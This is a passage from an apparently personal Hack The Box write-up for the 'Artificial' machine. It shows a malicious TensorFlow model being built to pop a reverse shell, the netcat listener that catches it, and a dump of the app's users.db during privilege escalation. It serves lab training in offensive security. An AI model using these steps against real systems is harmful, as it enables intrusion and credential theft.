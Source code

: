 After the edit of `exploit.py` file (your IP and PORT), we execute these commands to build the malicious LLM model with Docker:

```bash
sudo docker build -t my-tf-image .

$ sudo docker run --rm -it -v $(pwd):/workspace my-tf-image     
root@813e0e866f2d:/code# ls
tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@813e0e866f2d:/code# cd /workspace/
root@813e0e866f2d:/workspace# ls
LICENSE  README.md  dector.py  exploit.py  inject.py  model.py
root@813e0e866f2d:/workspace# 
root@813e0e866f2d:/workspace# python3 exploit.py 
root@813e0e866f2d:/workspace# ls
LICENSE  README.md  dector.py  exploit.h5  exploit.py  inject.py  model.py
root@813e0e866f2d:/workspace# exit
exit
```

Now we can open a [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener and upload the file on the [Website](../../../3%20-%20Tags/Hacking%20Concepts/Website.md) and click the `View Predictions` button :

```bash
┌───(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.11.74] 39548
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
```

We can perform [Shell Stabilization](../../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) to work better.
# Privilege Escalation
## App to Gael

Starting [Privilege Escalation](../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md)  we can find the users.db file and use [SQLite3](../../../3%20-%20Tags/Hacking%20Tools/SQLite3.md):

```bash
app@artificial:~/app$ cd instance
app@artificial:~/app/instance$ ls
users.db
app@artificial:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(100) NOT NULL, 
        email VARCHAR(120) NOT NULL, 
        password VARCHAR(200) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email)
);
INSERT INTO user VALUES(1,'gael','gael@artificial.htb','{{REDACTED_HASH}}');
<SNIP>
CREATE TABLE model (
        id VARCHAR(36) NOT NULL, 
```